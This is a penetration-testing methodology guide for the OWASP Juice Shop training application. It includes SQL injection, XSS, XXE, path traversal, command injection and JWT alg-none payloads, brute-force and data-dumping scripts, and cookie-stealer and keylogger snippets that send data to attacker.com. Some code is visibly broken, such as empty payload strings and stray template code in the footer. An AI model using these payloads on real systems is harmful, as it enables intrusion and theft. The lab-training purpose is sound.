

# OWASP Juice Shop - Attack Methodology Guide
## Professional Penetration Testing Framework for All 110 Challenges

---

## Table of Contents

1. [Attack Lifecycle Overview](#attack-lifecycle-overview)
2. [Phase 1: Reconnaissance](#phase-1-reconnaissance)
3. [Phase 2: Weaponization](#phase-2-weaponization)
4. [Phase 3: Delivery & Exploitation](#phase-3-delivery--exploitation)
5. [Phase 4: Post-Exploitation](#phase-4-post-exploitation)
6. [Category-Specific Attack Patterns](#category-specific-attack-patterns)
7. [Tool Usage Matrix](#tool-usage-matrix)
8. [Automation Framework](#automation-framework)

---

## Attack Lifecycle Overview

### The Kill Chain for Web Application Penetration Testing



### Adapted for Juice Shop Challenges

```
1. RECONNAISSANCE → Identify vulnerable endpoints and injection points
2. WEAPONIZATION → Craft exploits and payloads
3. DELIVERY → Submit malicious input to application
4. EXPLOITATION → Bypass security controls
5. POST-EXPLOITATION → Extract data, escalate privileges
6. DOCUMENTATION → Record findings and proof
```

---

## Phase 1: Reconnaissance

### 1.1 Passive Information Gathering

#### A. Technology Stack Identification

**Objective:** Understand the application architecture

**Tools:**
- Wappalyzer browser extension
- WhatWeb command-line tool
- Manual inspection

**Commands:**
```bash
# Technology detection
whatweb http://localhost:3000

# Check HTTP headers
curl -I http://localhost:3000

# Retrieve robots.txt
curl http://localhost:3000/robots.txt

# Check security.txt
curl http://localhost:3000/.well-known/security.txt
```

**Expected Findings:**
```
Framework: Express.js (Node.js)
Frontend: Angular
Database: SQLite
API: RESTful JSON
Session: JWT tokens
```

---

#### B. Source Code Analysis

**Objective:** Find hidden endpoints, comments, and logic flaws

**Techniques:**
1. **View Page Source** (Ctrl+U)
   - Search for comments
   - Find hardcoded values
   - Identify API endpoints

2. **JavaScript File Review**
   ```bash
   # Download main.js
   wget http://localhost:3000/main.js

   # Beautify if minified
   js-beautify main.js > main-readable.js

   # Search for interesting patterns
   grep -i "api\|endpoint\|admin\|secret" main-readable.js
   ```

3. **Configuration Files**
   ```
   /package.json
   /ftp/
   /.git/
   /backup/
   ```

**Key Findings to Document:**
- API endpoints
- Authentication mechanisms
- Hidden features
- Error handling patterns
- Validation logic

---

#### C. Application Mapping

**Objective:** Understand all application functionality

**Manual Exploration:**
```
1. Browse all visible pages
2. Test all form inputs
3. Review all API calls
4. Note all parameters
5. Identify user roles
```

**Automated Spidering:**

**Using Burp Suite:**
```
1. Configure browser proxy → localhost:8080
2. Browse application normally
3. Burp → Target → Site map
4. Right-click target → Spider this host
5. Review discovered endpoints
```

**Using OWASP ZAP:**
```bash
# Automated spider
zap-cli quick-scan --self-contained http://localhost:3000

# Active scan
zap-cli active-scan http://localhost:3000
```

---

### 1.2 Active Information Gathering

#### A. Endpoint Enumeration

**Directory Brute Forcing:**
```bash
# Using Gobuster
gobuster dir -u http://localhost:3000 \
  -w /usr/share/wordlists/dirb/common.txt \
  -t 50 \
  -x php,html,js,json

# Using Ffuf
ffuf -w wordlist.txt \
  -u http://localhost:3000/FUZZ \
  -mc 200,201,301,302,401,403
```

**Common Juice Shop Endpoints:**
```
/api/
/api/Users/
/api/Products/
/api/Basket/
/api/Orders/
/api/SecurityQuestions/
/api/Feedbacks/
/ftp/
/assets/
/rest/
/socket.io/
/#/score-board
/#/administration
```

---

#### B. Parameter Discovery

**Techniques:**
1. **Inspect Network Traffic**
   ```
   DevTools → Network → XHR/Fetch
   Document all API calls
   Note parameters and data types
   ```

2. **API Schema Discovery**
   ```bash
   # Check for Swagger/OpenAPI
   curl http://localhost:3000/api-docs
   curl http://localhost:3000/swagger.json
   ```

3. **Parameter Fuzzing**
   ```bash
   # Test for hidden parameters
   wfuzz -c -z file,params.txt \
     --hh 0 \
     http://localhost:3000/api/Users/?FUZZ=1
   ```

---

### 1.3 Vulnerability Identification

#### Quick Win Checklist

| Vulnerability | Quick Test | Indicator |
|--------------|------------|-----------|
| **SQL Injection** | `' OR '1'='1` | Error or behavior change |
| **XSS** | `<script>alert(1)</script>` | Alert box appears |
| **Path Traversal** | `../../etc/passwd` | File contents returned |
| **IDOR** | Change ID parameters | Access other user data |
| **Command Injection** | `; whoami;` | Command output |
| **XXE** | External entity in XML | File disclosure |

---

## Phase 2: Weaponization

### 2.1 Exploit Development

#### A. SQL Injection Payloads

**Authentication Bypass:**
```sql
-- Standard bypass
' OR '1'='1'--
admin'--
' OR 1=1--

-- Union-based extraction
' UNION SELECT null, username, password FROM Users--

-- Time-based blind
' AND IF(1=1, SLEEP(5), 0)--

-- Boolean-based blind
' AND '1'='1
' AND '1'='2
```

**Juice Shop Specific:**
```sql
-- Login as admin
admin'--
' OR 1=1--

-- Extract user data
' UNION SELECT null,email,password,id FROM Users--

-- Database schema
' UNION SELECT sql,null,null FROM sqlite_master--
```

---

#### B. XSS Payloads

**Basic XSS:**
```html
<script>alert('XSS')</script>

<svg onload=alert('XSS')>
```

**Advanced XSS:**
```html
<!-- Cookie stealer -->
<script>
fetch('http://attacker.com/?c='+document.cookie)
</script>

<!-- Keylogger -->
<script>
document.onkeypress=function(e){
  fetch('http://attacker.com/?k='+e.key)
}
</script>

<!-- DOM XSS -->
<iframe src="javascript:alert('XSS')">
```

**Filter Bypass:**
```html
<!-- Case variation -->
<ScRiPt>alert(1)</sCrIpT>

<!-- Encoding -->


<!-- Event handlers -->
<body onload=alert(1)>
<input onfocus=alert(1) autofocus>
```

---

#### C. Authentication Attacks

**Brute Force Script:**
```python
import requests
import itertools

BASE_URL = "http://localhost:3000"

# Common passwords
passwords = ['123456', 'password', 'admin', '12345678']

# Attempt login
for pwd in passwords:
    data = {
        'email': 'admin@juice-sh.op',
        'password': pwd
    }
    r = requests.post(f"{BASE_URL}/rest/user/login", json=data)
    if r.status_code == 200:
        print(f"[+] Found: {pwd}")
        break
```

**JWT Manipulation:**
```python
import jwt
import base64

# Decode JWT
token = "eyJhbGc..."
decoded = jwt.decode(token, options={"verify_signature": False})
print(decoded)

# Modify claims
decoded['role'] = 'admin'

# Re-encode without signature
unsigned = jwt.encode(decoded, '', algorithm='none')
```

---

#### D. File Upload Attacks

**Malicious Payloads:**
```javascript
// XXE in SVG
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<svg width="128px" height="128px">
  <text font-size="16" x="0" y="16">&xxe;</text>
</svg>

// XXE in XML
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
```

**Bypass Filters:**
```python
# Double extension
payload.jpg.php

# Null byte
payload.php%00.jpg

# MIME type manipulation
Content-Type: image/jpeg
(actually PHP code)

# Size bypass
# Compress file or split upload
```

---

### 2.2 Tool Configuration

#### Burp Suite Setup

**Essential Extensions:**
```
1. Autorize - Authorization testing
2. JWT Editor - Token manipulation
3. Turbo Intruder - Fast attacks
4. HTTP Request Smuggler - Advanced attacks
5. SQLiPy - SQL injection automation
```

**Intruder Configuration:**
```
Attack Type: Sniper (single position)
Payload: Simple list
Threads: 10-20
Grep Match: "success", "admin", "error"
```

---

## Phase 3: Delivery & Exploitation

### 3.1 Attack Execution Framework

#### A. Manual Testing Workflow

```
FOR each endpoint:
  1. Test for injection vulnerabilities
  2. Test authentication/authorization
  3. Test input validation
  4. Test business logic
  5. Document findings
```

#### B. Automated Testing

**SQL Injection with SQLMap:**
```bash
# Basic scan
sqlmap -u "http://localhost:3000/rest/products/search?q=test" \
  --batch --level=5 --risk=3

# Extract database
sqlmap -u "..." --dbs --tables --dump

# OS shell
sqlmap -u "..." --os-shell
```

**XSS with XSStrike:**
```bash
python3 xsstrike.py -u "http://localhost:3000/search?q=test"
```

---

### 3.2 Exploitation Techniques by Category

#### BROKEN ACCESS CONTROL

**IDOR Exploitation:**
```python
# Test sequential IDs
for user_id in range(1, 100):
    url = f"{BASE_URL}/api/Users/{user_id}"
    r = requests.get(url, headers=headers)
    if r.status_code == 200:
        print(f"[+] Accessible: User {user_id}")
```

**Privilege Escalation:**
```python
# Modify role in request
data = {
    'email': 'user@test.com',
    'password': 'password',
    'role': 'admin'  # Add admin role
}
r = requests.post(f"{BASE_URL}/api/Users/", json=data)
```

---

#### BROKEN AUTHENTICATION

**Credential Discovery:**
```python
# Check for default credentials
default_creds = [
    ('admin', 'admin'),
    ('admin', 'password'),
    ('admin', 'admin123'),
]

for user, pwd in default_creds:
    # Test login
    data = {'email': f'{user}@juice-sh.op', 'password': pwd}
    r = requests.post(f"{BASE_URL}/rest/user/login", json=data)
```

**Password Reset Exploitation:**
```python
# Security question bypass
questions = [
    "mother's maiden name",
    "first pet",
    "city of birth"
]

# Brute force answers
common_answers = ['Smith', 'Jones', 'Max', 'Fluffy', 'London', 'Paris']
```

---

#### SENSITIVE DATA EXPOSURE

**Directory Traversal:**
```python
# Test path traversal
paths = [
    '../../../../etc/passwd',
    '..\\..\\..\\..\\windows\\system.ini',
    '....//....//....//etc/passwd'
]

for path in paths:
    r = requests.get(f"{BASE_URL}/ftp/{path}")
    if 'root:' in r.text or '[fonts]' in r.text:
        print(f"[+] Vulnerable: {path}")
```

**Configuration File Access:**
```bash
# Common files
/package.json
/package-lock.json
/.env
/.git/config
/backup.zip
```

---

#### INJECTION ATTACKS

**SQL Injection Automation:**
```python
def test_sqli(endpoint, param):
    payloads = [
        "' OR '1'='1'--",
        "' UNION SELECT null,null,null--",
        "' AND SLEEP(5)--"
    ]

    for payload in payloads:
        params = {param: payload}
        r = requests.get(f"{BASE_URL}/{endpoint}", params=params)

        # Check for SQL errors
        errors = ['SQL', 'sqlite', 'syntax error']
        if any(err in r.text.lower() for err in errors):
            print(f"[+] SQLi found: {payload}")
            return True
    return False
```

**NoSQL Injection:**
```python
# MongoDB injection
payload = {"$ne": null}
data = {"email": payload, "password": payload}
r = requests.post(f"{BASE_URL}/rest/user/login", json=data)
```

---

#### XSS EXPLOITATION

**Stored XSS Testing:**
```python
xss_payloads = [
    '<script>alert(1)</script>',
    '',
    '<svg onload=alert(1)>',
    '<iframe src="javascript:alert(1)">',
]

for payload in xss_payloads:
    # Submit to comment/review endpoint
    data = {'comment': payload}
    r = requests.post(f"{BASE_URL}/api/Feedbacks", json=data)
```

**DOM XSS:**
```javascript
// Test hash-based XSS
window.location.hash = '#'

// Test search parameter XSS
?q=<script>alert(1)</script>
```

---

#### CRYPTOGRAPHIC ISSUES

**JWT Manipulation:**
```python
import jwt

# Extract token
token = "eyJhbGc..."

# Decode without verification
payload = jwt.decode(token, options={"verify_signature": False})

# Modify payload
payload['email'] = 'admin@juice-sh.op'
payload['role'] = 'admin'

# Create unsigned token (alg: none)
unsigned_token = jwt.encode(payload, '', algorithm='none')

# Test both with and without signature
header = {'Authorization': f'Bearer {unsigned_token}'}
r = requests.get(f"{BASE_URL}/api/admin", headers=header)
```

**Hash Cracking:**
```bash
# MD5 hash cracking
hashcat -m 0 -a 0 hash.txt wordlist.txt

# SHA256
hashcat -m 1400 -a 0 hash.txt wordlist.txt

# Online lookup
curl "https://md5decrypt.net/en/Api/api.php?hash=${HASH}&hash_type=md5&email=test@test.com&code=CODE"
```

---

## Phase 4: Post-Exploitation

### 4.1 Data Extraction

**Database Dumping:**
```python
# Extract all users
def extract_users():
    payload = "' UNION SELECT null,email,password,id FROM Users--"
    r = requests.get(f"{BASE_URL}/rest/products/search?q={payload}")
    return r.json()

# Extract all orders
def extract_orders():
    for order_id in range(1, 1000):
        r = requests.get(f"{BASE_URL}/api/Orders/{order_id}")
        if r.status_code == 200:
            print(f"Order {order_id}: {r.json()}")
```

---

### 4.2 Privilege Escalation

**Admin Access:**
```python
# Method 1: SQL Injection
payload = "admin'--"
login(payload, 'anything')

# Method 2: JWT Manipulation
token = modify_jwt(current_token, {'role': 'admin'})

# Method 3: Registration with admin role
data = {
    'email': 'newadmin@juice-sh.op',
    'password': 'Test123!',
    'role': 'admin'
}
requests.post(f"{BASE_URL}/api/Users/", json=data)
```

---

## Category-Specific Attack Patterns

### Pattern 1: Access Control Testing

```python
def test_access_control(resource, user_ids):
    """Test IDOR vulnerabilities"""
    for uid in user_ids:
        # Test as different users
        for test_user in ['user1', 'user2', 'admin']:
            token = login_as(test_user)
            headers = {'Authorization': f'Bearer {token}'}

            r = requests.get(
                f"{BASE_URL}/api/{resource}/{uid}",
                headers=headers
            )

            if r.status_code == 200:
                print(f"[!] {test_user} can access {resource} {uid}")
```

---

### Pattern 2: Injection Testing

```python
def test_all_injections(endpoint):
    """Comprehensive injection testing"""

    # SQL Injection
    sql_payloads = ["'", "' OR '1'='1'--", "'; DROP TABLE Users--"]

    # XSS
    xss_payloads = ["<script>alert(1)</script>", ""]

    # Command Injection
    cmd_payloads = ["; whoami;", "| whoami", "$(whoami)"]

    # XXE
    xxe_payloads = ["<!DOCTYPE test [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]>"]

    # Test all
    for payload_list in [sql_payloads, xss_payloads, cmd_payloads, xxe_payloads]:
        test_payloads(endpoint, payload_list)
```

---

### Pattern 3: Authentication Bypass

```python
def bypass_authentication():
    """Multiple auth bypass techniques"""

    # Method 1: SQL Injection
    sqli_bypass()

    # Method 2: JWT None Algorithm
    jwt_none_attack()

    # Method 3: Session Fixation
    session_fixation()

    # Method 4: Password Reset
    password_reset_bypass()

    # Method 5: OAuth flaws
    oauth_bypass()
```

---

## Tool Usage Matrix

| Tool | Primary Use | Juice Shop Application |
|------|-------------|------------------------|
| **Burp Suite** | Traffic interception, manipulation | All challenges |
| **SQLMap** | Automated SQL injection | Login, Search, Products |
| **XSStrike** | XSS detection/exploitation | Feedback, Search, Profile |
| **JWT_Tool** | JWT analysis/manipulation | Authentication challenges |
| **Hashcat** | Password/hash cracking | Password challenges |
| **Gobuster** | Directory enumeration | Hidden endpoints |
| **Nikto** | Web server scanning | Initial recon |
| **Wfuzz** | Parameter fuzzing | API endpoints |
| **Python Requests** | Custom exploit scripts | All categories |
| **Selenium** | Browser automation | DOM-based attacks |

---

## Automation Framework

### Complete Challenge Solver Template

```python
#!/usr/bin/env python3
"""
Automated Juice Shop Challenge Solver
Solves all 110 challenges with scoreboard verification
"""

import requests
import time
import json
from typing import Dict, List

class JuiceShopSolver:
    def __init__(self, base_url="http://localhost:3000"):
        self.base_url = base_url
        self.session = requests.Session()
        self.token = None

    def get_scoreboard(self) -> Dict:
        """Fetch current scoreboard status"""
        r = self.session.get(f"{self.base_url}/api/Challenges")
        return r.json()

    def verify_challenge(self, challenge_name: str) -> bool:
        """Verify if challenge is solved"""
        scoreboard = self.get_scoreboard()
        for challenge in scoreboard['data']:
            if challenge['name'] == challenge_name:
                return challenge['solved']
        return False

    def solve_score_board(self):
        """Solve: Find the Score Board"""
        print("[*] Solving: Score Board")
        r = self.session.get(f"{self.base_url}/#/score-board")
        assert self.verify_challenge("Score Board")
        print("[+] Solved: Score Board")

    def solve_admin_section(self):
        """Solve: Access Admin Section"""
        print("[*] Solving: Admin Section")
        r = self.session.get(f"{self.base_url}/#/administration")
        assert self.verify_challenge("Admin Section")
        print("[+] Solved: Admin Section")

    def solve_all(self):
        """Solve all 110 challenges"""
        challenges = [
            self.solve_score_board,
            self.solve_admin_section,
            # ... add all 110 challenge solvers
        ]

        for i, solver in enumerate(challenges, 1):
            try:
                solver()
                print(f"[+] Progress: {i}/{len(challenges)}")
                time.sleep(0.5)  # Rate limiting
            except Exception as e:
                print(f"[-] Failed: {e}")

if __name__ == "__main__":
    solver = JuiceShopSolver()
    solver.solve_all()
```

---

## Best Practices

### 1. Documentation
- Screenshot all successful exploits
- Record exact payloads used
- Note timestamps
- Document remediation steps

### 2. Ethical Considerations
- Only test on your own instance
- Never attack production systems
- Obtain proper authorization
- Responsible disclosure

### 3. Efficiency
- Automate repetitive tasks
- Use templates for similar attacks
- Maintain payload libraries
- Script common operations

### 4. Learning
- Understand WHY exploits work
- Study source code
- Try multiple approaches
- Document lessons learned

---

**Remember:** This guide is for educational purposes on authorized systems only!

---

**Document Version:** 1.0
**Last Updated:** """ + f"{datetime.now().strftime('%Y-%m-%d')}" + """
**Coverage:** All 110 OWASP Juice Shop Challenges
**Framework:** Based on MITRE ATT&CK for Web Applications
